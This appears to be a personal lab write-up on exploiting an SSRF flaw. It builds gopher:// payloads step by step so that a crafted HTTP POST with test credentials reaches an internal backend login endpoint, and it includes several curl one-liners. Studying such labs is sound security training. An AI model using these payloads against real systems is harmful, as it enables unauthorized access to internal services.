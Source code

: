 #### Labs
`1.`

![[Pasted image 20250108231455.png]]
navigate to `http://backend/login` using the `SSRF` vulnerabilty
![[Pasted image 20250108232542.png]]
we get a `405` error but this gives us an `IDEA` of what the `REQUEST` should look like
![[Pasted image 20250108232922.png]]
once we have an `idea` of the `Request` we can begin testing against our own `kali` server with tailored `gopher`

starting example:
```http
gopher://127.0.0.1:80/_POST%20/protectedflag%20HTTP/1.1%0ACookie:test
```
testing on `kali` test #1
```http
curl gopher://127.0.0.1:80/login_POST%200HTTP/1.1%0AContent-Length:%2050%0AContent-Type:%20application/x-www-form-urlencoded%0ausername=white.rabbit%0apassword=dontbelate
```
we can see multiple errors on the highlighted line
![[Pasted image 20250108233626.png]]
lets fix them
```http
curl gopher://127.0.0.1:80/_POST%200HTTP/1.1%0AContent-Length:%2050%0AContent-Type:%20application/x-www-form-urlencoded%0ausername=white.rabbit%0apassword=dontbelate
```
ok so we took out the `/login` portion and the line was kind of fixed
![[Pasted image 20250108233807.png]]
we still have an extra `0` lets fix that
```http
curl gopher://127.0.0.1:80/_POST%20HTTP/1.1%0AContent-Length:%2050%0AContent-Type:%20application/x-www-form-urlencoded%0ausername=white.rabbit%0apassword=dontbelate
```
looks good now but now we have to add the `/login` portion because thats the endpoint we are trying to hit
![[Pasted image 20250108233953.png]]
added the `/login` after the `POST`
```http
curl gopher://127.0.0.1:80/_POST%20/login%20HTTP/1.1%0AContent-Length:%2041%0AContent-Type:%20application/x-www-form-urlencoded%0a%0ausername=white.rabbit&apassword=dontbelate
```
looks good 
![[Pasted image 20250109000250.png]]
this worked - however we need to take note of `two`  very important things
- `Content-Length` has to match the actual content, so in this case `username=white.rabbit&password=dontbelate` = 41
- the `Content` so the `username=white.rabbit&password=dontbelate` have to be two spaces lower than all the `HEADERS` sp ensure `%0a%0a` occurs
```http
gopher://backend:80/_POST%20/login%20HTTP/1.1%0aContent-Length:%2041%0aContent-Type:%20application/x-www-form-urlencoded%0a%0ausername=white.rabbit&password=dontbelate
```
it working with `curl`
![[Pasted image 20250109000326.png]]
W
![[Pasted image 20250109000408.png]]